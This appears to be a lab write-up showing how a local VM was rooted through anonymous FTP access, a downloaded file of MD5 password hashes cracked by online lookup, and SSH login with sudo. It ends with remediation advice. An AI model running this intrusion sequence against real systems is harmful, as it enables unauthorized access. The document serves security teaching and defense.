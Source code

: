 # Hack the Box I

We are presented with a virtual machine and no additional information. Our goal is to gain root privileges on the machine.

## Vulnerability

First we check weather the machine has any exposed ports.

```bash
$ nmap 192.168.57.2
Starting Nmap 7.80 ( https://nmap.org ) at 2023-03-08 17:44 CET
Nmap scan report for 192.168.57.2
Host is up (0.00023s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 3.01 seconds
```

Indeed we find that there is an ftp server running on port 21. We connect to the ftp server and try to login anonymously.

```bash
$ ftp 192.168.57.2
Connected to 192.168.57.2.
220 (vsFTPd 3.0.5)
Name (192.168.57.2:localuser): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Surprisingly we are able to do so without any problems. Next we list the files on the server.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||24476|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             173 Mar 08 14:07 users.txt
226 Directory send OK.
ftp>
```

We find a file called `users.txt` which we download.

```bash
ftp> get users.txt
local: users.txt remote: users.txt
229 Entering Extended Passive Mode (|||35079|)
150 Opening BINARY mode data connection for users.txt (173 bytes).
100% |***********************************************************************|   173        1.42 MiB/s    00:00 ETA
226 Transfer complete.
173 bytes received in 00:00 (213.31 KiB/s)
ftp>
```

The file contains the following four lines:

```
obiwan::::5f4dcc3b5aa765d61d8327deb882cf99
anakin::::4aedd405e0a893d495bd8f02358a0d01
yoda::::765e43ee45ef873fc6fec2d869d0308a
palpatine::::4034a346ccee15292d823416f7510a2f
```

The content seems to be a list of users and their hashed passwords. We parse the hashes to a [hash identifier](https://hashes.com/en/tools/hash_identifier) which tells us that the hashes are MD5 hashes and even gives us the plaintext passwords.

```
5f4dcc3b5aa765d61d8327deb882cf99 - password - Possible algorithms: MD5
4aedd405e0a893d495bd8f02358a0d01 - iamyourfather - Possible algorithms: MD5
765e43ee45ef873fc6fec2d869d0308a - maytheforcebewithyou - Possible algorithms: MD5
4034a346ccee15292d823416f7510a2f - evil - Possible algorithms: MD5
```

Next we ssh into the server with the given user credentials to find that the password of the first user matches the password of the superuser.

```bash
$ ssh obiwan@192.168.57.2
obiwan@192.168.57.2's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Mar  8 13:52:01 2023 from 192.168.57.1
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
$ sudo -i
[sudo] password for obiwan:
#
```

With gaining root privileges we have successfully hacked the box.

## Fixing the vulnerability

### 1. Do not allow anonymous logins

If not absolutely necessary, do not allow anonymous logins to your ftp server. To turn off anonymous logins (which are off by default) add the following line to your `/etc/vsftpd.conf` file.

```bash
anonymous_enable=NO
```

### 2. Do not store user credentials yourself (not implemented in the secured version, because then I couldn't show 3)

Be it a sticky note or a weakly hashed password file, do not store user credentials yourself. Instead use a service like [Keycloak](https://www.keycloak.org/) to manage user credentials.

### 3. Do not use weak encryption

MD5 is a weak encryption algorithm by todays standards. Use a stronger algorithm like SHA-256 or SHA-512. Also consider using salt and pepper to further increase the security of your passwords.

### 4. Do not use weak passwords

Even with a weak encryption algorithm, a strong password can still be very hard to crack. The 'decryption' of the hash was only possible because the passwords were already precomputed and stored in a database. If you use a strong password, the attacker will have to compute the hash themselves which even with md5 takes some time. The password `7?^{?JR6ux/9r4H"` for example has the hash `975cfeae7e88982a72192ed45ddd49e5` which is identified correctly by the site as md5 but has not been precomputed, so it doens't show the plaintext password.

### 5. Don't allow ssh login via password

The ssh server should only allow login via public key. This way the attacker cannot connect to your server even if they have the password.
